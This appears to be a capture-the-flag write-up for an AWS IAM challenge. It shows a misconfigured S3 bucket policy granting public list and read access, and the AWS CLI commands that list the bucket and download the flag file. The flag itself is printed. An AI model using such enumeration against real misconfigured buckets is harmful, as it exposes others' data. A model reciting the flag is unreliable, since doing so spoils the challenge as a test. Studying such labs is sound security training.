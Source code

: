 # Bucket Challenge

## Problem Description

**Buckets of Fun:** We all know that public buckets are risky. But can you find the flag?

## IAM Policy

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}


## Solution
This problem involves ListObject and GetObject permissions for the "thebigiamchallenge-storage-9979f4b" bucket, which are open to anyone (Principal: *) to check the file list and download files.

## Proof of Concept (PoC)
Install AWS CLI.
Create an IAM user with permissions set to AmazonS3ReadOnlyAccess.
Generate access keys for the user.
Configure AWS CLI using the generated access keys.

File List Check:
```json
> aws s3 ls s3://thebigiamchallenge-storage-9979f4b/files/
2023-06-06 04:13:53         37 flag1.txt
2023-06-09 04:18:24      81889 logo.png
Download File and Obtain Flag:
```

```json
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt ./
download: s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt to .\flag1.txt
```

```
> type flag1.txt
{wiz:exposed-storage-risky-as-usual}
Looks like they found the flag!
```

Feel free to customize it further based on your project's specific needs!
